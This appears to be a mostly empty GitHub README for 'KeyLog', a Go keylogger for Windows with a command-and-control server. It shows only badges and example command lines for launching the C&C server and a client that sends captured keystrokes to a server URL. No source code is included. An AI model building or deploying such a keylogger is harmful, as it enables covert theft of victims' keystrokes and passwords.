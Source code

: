 
# KeyLog
<img src="https://i.ibb.co/0jX2hWQ/LOGO-DARK-2.png" alt="drawing" width="370"/>

![Go](https://img.shields.io/badge/go-%2300ADD8.svg?style=for-the-badge&logo=go&logoColor=white) &nbsp;
![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white) &nbsp;
![Docker](https://img.shields.io/badge/docker-%230db7ed.svg?style=for-the-badge&logo=docker&logoColor=white) &nbsp;

## 🔍 Usage
```
SERVER:
        
CLIENT:
```
## ⚙ Installation
```

```
## 🐋 Docker
```

```
## 👽  Examples
```
SERVER: ./C&C -port <portToListen> -token <yourToken> -path <resultFolder>
CLIENT: ./KeyLog -url <serverUrl> -kCount <numberOfKeysToSend> -tCount <timeUntilSend>
```